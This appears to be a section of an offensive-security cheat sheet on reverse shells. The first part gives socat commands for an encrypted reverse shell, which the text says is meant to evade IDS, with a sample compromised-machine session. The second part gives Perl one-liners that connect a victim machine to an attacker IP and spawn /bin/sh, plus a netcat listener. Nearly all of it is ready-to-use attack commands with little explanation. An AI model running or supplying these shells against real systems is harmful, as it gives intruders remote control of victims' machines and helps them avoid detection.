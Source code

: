 ```bash

# encrypted reverse shells will prevent anyone from spying and used to evade IDS

# On the attacker machine
## Generate a certificate
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.cert 
# on creating values will be asked which can be left blank
# shell.key and shell.cert will be generated
# merge the key and cert file to generate a pam file
cat shell.key shell.crt > shell.pem
# the generated certificate must be used on whichever device is listening for the connection
socat openssl-listen:4444,cert=shell.pem,verify=0 -

# on the victim machine
socat openssl-connect:<attacker-ip>:4444,verify=0 EXEC:/bin/bash

# poor interactive shell will be obtained

```bash
# compromized machine
┌───[toor@parrot]─[/dev/shm]  
└──╼ $socat openssl-listen:1234,cert=shell.pem,verify=0 exec:/bin/bash
```

```bash
# attackker machine  
┌────[kali@kali]─[/opt/binaries]
└──╼ $socat openssl-connect:192.168.43.181:1234,verify=0 -
id
uid=1000(toor) gid=1000(toor) groups=1000(toor)


# =================================================================================================#
# fully interactive encrypted shell
# on the attacker machine
socat `tty`,raw,echo=0 openssl-listen:1234,cert=shell.pem,verify=0

# on the victim machine
socat openssl-connect:<attacker-ip>:1234,verify=0 exec:bash,pty,stderr,setsid
```

#### Perl <a name='perl'></a>
```bash 
# on the victim machine
# 1.syntax: perl -e 'use Socket;$i="{attacker IP}";$p={port};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
perl -e 'use Socket;$i="10.10.14.32";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# 2.syntax: perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"{attacker IP}:{port}");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.10.14.32:1337");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

# 3. Works only on windows machine: perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"{attacker IP}:{port}");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.10.14.32:1337");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

# on the attacker machine 
# syntax: nc -lvnp {port}
```